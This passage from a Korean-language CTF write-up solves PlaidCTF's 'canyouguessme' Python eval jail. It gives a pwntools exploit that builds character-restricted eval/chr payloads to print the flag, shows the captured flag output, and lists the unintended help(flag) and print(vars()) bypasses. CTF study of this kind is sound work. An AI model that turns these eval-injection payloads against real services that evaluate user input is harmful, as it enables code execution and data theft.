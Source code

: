 멋집니다!! 쓸 수 있는 문자종류가 딱 `10`이 되었습니다. 이제 다음 커맨드를 실행할 수 있습니다. `print(flag)`

아래와 같은 `exploit code`를 작성할 수 있습니다.

```Python
from pwn import *

conn = remote("canyouguessme.pwni.ng", 12349)

def make_payload(command):
	payload  = "eval("
	for i in command:
		payload += "chr("
		for j in range(0, ord(i)):
			payload += "all(chr(val))+"
		payload = payload[:-1]
		payload += ")+"
	payload = payload[:-1]
	payload  += ")"
	return payload


conn.recvuntil("Input value: ")
payload = make_payload("print(flag)")
conn.sendline(payload)

conn.interactive()
```

위 코드를 실행하면 아래와 같이 플래그를 획득 할 수 있습니다.

```
[+] Opening connection to canyouguessme.pwni.ng on port 12349: Done
[*] Switching to interactive mode
PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}
Nope. Better luck next time.
[*] Got EOF while reading in interactive
$  
```


## unintend solution

대회가 끝난 후, 다른 사람들의 write-up을 통해 `unintend solution`이 있다는 것을 알았습니다. `help(flag)`나 `print(vars())`는 둘다 `10`종류 미만의 문자로 이루어져있습니다.

두 커맨드를 입력하면 `flag`를 얻을 수 있습니다.

#####help(flag)
```

  ____         __   __           ____                     __  __       
 / ___|__ _ _ _\ \ / /__  _   _ / ___|_   _  ___  ___ ___|  \/  | ___  
| |   / _` | '_ \ V / _ \| | | | |  _| | | |/ _ \/ __/ __| |\/| |/ _ \
| |__| (_| | | | | | (_) | |_| | |_| | |_| |  __/\__ \__ \ |  | |  __/
 \____\__,_|_| |_|_|\___/ \__,_|\____|\__,_|\___||___/___/_|  |_|\___|



Input value: help(flag)
No Python documentation found for 'PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}'.
Use help() to get the interactive help utility.
Use help(str) for help on the str class.

Nope. Better luck next time.
```
